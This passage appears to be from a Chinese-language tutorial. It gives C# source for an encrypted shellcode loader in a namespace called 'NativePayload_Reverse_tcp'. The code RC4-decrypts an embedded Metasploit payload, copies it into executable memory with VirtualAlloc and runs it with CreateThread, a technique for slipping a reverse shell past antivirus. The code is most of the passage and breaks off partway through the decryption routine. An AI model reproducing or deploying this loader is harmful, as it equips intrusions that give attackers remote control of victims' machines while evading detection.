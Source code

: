 在vs2017中再新建C#解密项目

解密及执行代码

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Runtime.InteropServices;
using System.Threading;
using System.Reflection;
using System.Runtime.CompilerServices;


namespace NativePayload_Reverse_tcp
{
    public class Program
    {
        public static void Main()
        {
            Shellcode.Exec();
        }

    }

    class Shellcode
    {
        public static void Exec()
        {
            string Payload_Encrypted;
            Payload_Encrypted = "0,244,36,163,code_herer";
            string[] Payload_Encrypted_Without_delimiterChar = Payload_Encrypted.Split(',');
            byte[] _X_to_Bytes = new byte[Payload_Encrypted_Without_delimiterChar.Length];
            for (int i = 0; i < Payload_Encrypted_Without_delimiterChar.Length; i++)
            {
                byte current = Convert.ToByte(Payload_Encrypted_Without_delimiterChar[i].ToString());
                _X_to_Bytes[i] = current;
            }
            // 解密密钥，可以更改，加解密源码中保持KEY一致就行
            byte[] KEY = { 0x11, 0x22, 0x11, 0x00, 0x00, 0x01, 0xd0, 0x00, 0x00, 0x11, 0x00, 0x00, 0x00, 0x00, 0x00, 0x11, 0x00, 0x11, 0x01, 0x11, 0x11, 0x00, 0x00 };
            byte[] MsfPayload = Decrypt(KEY, _X_to_Bytes);
            // 加载shellcode
            IntPtr returnAddr = VirtualAlloc((IntPtr)0, (uint)Math.Max(MsfPayload.Length, 0x1000), 0x3000, 0x40);
            Marshal.Copy(MsfPayload, 0, returnAddr, MsfPayload.Length);
            CreateThread((IntPtr)0, 0, returnAddr, (IntPtr)0, 0, (IntPtr)0);
            Thread.Sleep(2000);
        }

        public static byte[] Decrypt(byte[] key, byte[] data)
        {
            return EncryptOutput(key, data).ToArray();
        }
        private static byte[] EncryptInitalize(byte[] key)
        {
            byte[] s = Enumerable.Range(0, 256)
              .Select(i => (byte)i)
              .ToArray();

            for (int i = 0, j = 0; i < 256; i++)
            {
                j = (j + key[i % key.Length] + s[i]) & 255;
```